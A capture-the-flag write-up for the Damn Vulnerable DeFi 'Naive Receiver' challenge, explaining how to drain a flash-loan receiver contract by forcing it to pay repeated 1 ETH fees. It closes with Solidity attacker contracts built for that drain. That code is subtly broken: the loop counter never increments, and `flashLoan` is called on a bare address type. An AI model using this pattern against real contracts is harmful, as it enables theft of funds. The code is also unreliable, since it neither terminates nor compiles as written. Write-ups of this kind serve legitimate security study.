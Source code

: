 # #2 Naive Receiver Damn Vulnerable Defi

## Goals

=> There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

=> A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

=> Take all ETH out of the user’s contract. If possible, in a single transaction.

### Hints

- None

### Solution

- To drain the funds we can just call the `flashLoan()` function of the pool ten times and put in the receiver contract as a receiver, this will drain the receivers balance to zero, since it only checks if the function got called by the pool.

- To drain the contract in one Transaction we should deploy a Hack contract that deploys 10 contracts inside it's constructor in a loop that all call `flashLoan()` with the address of the receiver contract as a loan receiver, this will drain it's balance to zero in one transaction

### Attacker Contract

```solidity
contract Hack {
    uint256 attackCounter = 1;

    constructor(address _pool, address _receiver) {
        while (attackCounter < 11) {
            new Attacker(_pool, _receiver);
        }
    }
}

contract Attacker {
    address private pool;
    IERC3156FlashBorrower receiver;
    address public constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    constructor(address _pool, address _receiver) {
        pool = _pool;
        receiver = IERC3156FlashBorrower(_receiver);
        pool.flashLoan(_receiver, ETH, 0, "");
    }
}
```
